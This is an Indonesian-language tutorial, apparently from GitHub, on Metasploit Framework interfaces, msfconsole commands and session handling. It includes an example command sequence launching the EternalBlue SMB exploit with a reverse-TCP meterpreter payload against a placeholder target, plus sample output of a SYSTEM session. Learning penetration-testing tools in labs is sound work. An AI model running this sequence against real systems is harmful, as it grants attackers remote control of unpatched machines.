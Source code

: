 # Antarmuka Metasploit Framework

## A. Pengantar

`Metasploit Framework` memiliki beberapa antarmuka yang bisa digunakan oleh user, mulai dari CLI (Command Line Interface) hingga GUI (Graphical User Interface). Namun, yang paling sering digunakan dan paling powerful adalah CLI melalui `msfconsole`.

## B. Jenis Antarmuka Metasploit

| Antarmuka | Deskripsi |
|:--:|:--:|
| `msfconsole` | Antarmuka utama berbasis CLI, digunakan untuk menjalankan `modul`, `payload`, dan `eksploitasi`. |
| `msfvenom` | CLI untuk membuat payload secara manual. |
| [Armitage](https://www.offsec.com/metasploit-unleashed/armitage/) (GUI) | Antarmuka grafis berbasis Java (sudah jarang digunakan). |
| [Metasploit Pro](https://docs.rapid7.com/metasploit/) (GUI berbayar) | Antarmuka komersial dengan fitur profesional seperti laporan dan automasi. |

## C. `msfconsole` – Antarmuka Utama

1. Menjalankan msfconsole:

   ```
   msfconsole
   ```

   Saat dijalankan, akan muncul banner:

   ```
          =[ metasploit v6.4.56-dev                          ]
   + -- --=[ 2505 exploits - 1291 auxiliary - 431 post       ]
   + -- --=[ 1610 payloads - 49 encoders - 13 nops           ]
   + -- --=[ 9 evasion                                       ]

   Metasploit Documentation: https://docs.metasploit.com/
   ```

2. Struktur Dasar Perintah di msfconsole

| Perintah | Fungsi |
|:--:|:--:|
| `search <nama>` | Mencari `exploit`, `payload`, `dll` |
| `use <modul>` | Memilih modul yang akan digunakan |
| `info` | Menampilkan detail tentang modul yang sedang digunakan |
| `show options` | Melihat konfigurasi parameter modul |
| `set <parameter> <nilai>` | Mengatur nilai parameter modul |
| `exploit` atau `run` | Menjalankan exploit atau modul |

3. Contoh Penggunaan msfconsole:

```
search windows/smb
use exploit/windows/smb/ms17_010_eternalblue
show options
set RHOSTS <IP TARGET>
set LHOST <IP ATTACKER>
set PAYLOAD windows/meterpreter/reverse_tcp
exploit
```

## D. Fitur Tambahan di msfconsole

| Fitur | Penjelasan |
|:--:|:--:|
| Tab Completion | Tekan `Tab` untuk melengkapi modul atau perintah otomatis |
| Command History | Gunakan panah atas `(↑)` untuk melihat perintah sebelumnya |
| Background Sessions | Gunakan background untuk menyimpan sesi eksploitasi ke background |
| Session Interaction | Gunakan `sessions -i <id>` untuk membuka kembali sesi eksploitasi |

## E. Contoh Output dari msfconsole:

```
msf6 > sessions

Active sessions
===============

  Id  Name  Type                   Information               Connection
  --  ----  ----                   -----------               ----------
  1         meterpreter x86/win32  NT AUTHORITY\SYSTEM       192.168.1.10 -> 192.168.1.5
```

## F. Kesimpulan

`msfconsole` adalah pusat kendali utama dalam Metasploit. Dengan memahami perintah-perintah dasar dan navigasi antarmukanya, kamu bisa mengelola modul eksploitasi, payload, dan sesi secara efisien.

> Tips: Latih penggunaan msfconsole di lab lokal atau VM agar terbiasa sebelum digunakan dalam skenario nyata.
